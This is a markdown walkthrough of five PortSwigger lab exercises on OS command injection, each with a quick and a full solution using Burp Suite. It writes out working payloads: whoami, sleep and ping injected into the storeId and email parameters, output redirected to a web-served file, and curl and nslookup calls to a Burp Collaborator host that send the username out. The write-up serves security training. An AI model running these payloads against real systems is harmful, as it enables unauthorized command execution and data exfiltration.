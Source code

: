 ## Table of Contents

- [[#OS command injection, simple case]]
- [[#Blind OS command injection with time delays]]
- [[#Blind OS command injection with output redirection]]
- [[#Blind OS command injection with out-of-band interaction]]
- [[#Blind OS command injection with out-of-band data exfiltration]]

## OS command injection, simple case
Reference: https://portswigger.net/web-security/os-command-injection/lab-simple

<!-- omit in toc -->
### Quick Solution
Intercept the **check stock** request and modify the ``storeId`` parameter to:
```
%26whoami%26
```
The payload provided by PortSwigger is a little bit different, but the result is the same.

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the ``storeID`` parameter, giving it the value ``1|whoami``.
3. Observe that the response contains the name of the current user.

## Blind OS command injection with time delays
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26sleep%2010%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=x||ping+-c+10+127.0.0.1||
```
3. Observe that the response takes 10 seconds to return.

## Blind OS command injection with output redirection
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26whoami>whoami.txt%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=||whoami>/var/www/images/output.txt||
```
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the ``filename`` parameter, changing the value to the name of the file you specified for the output of the injected command:
```
filename=output.txt
```
5. Observe that the response contains the output from the injected command.

## Blind OS command injection with out-of-band interaction
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26nslookup%20your-burp-collaborator%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=x||nslookup+x.burpcollaborator.net||
```

## Blind OS command injection with out-of-band data exfiltration
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26curl%20your-burp-collaborator/$(whoami)%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``email`` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
```
email=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```
5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.
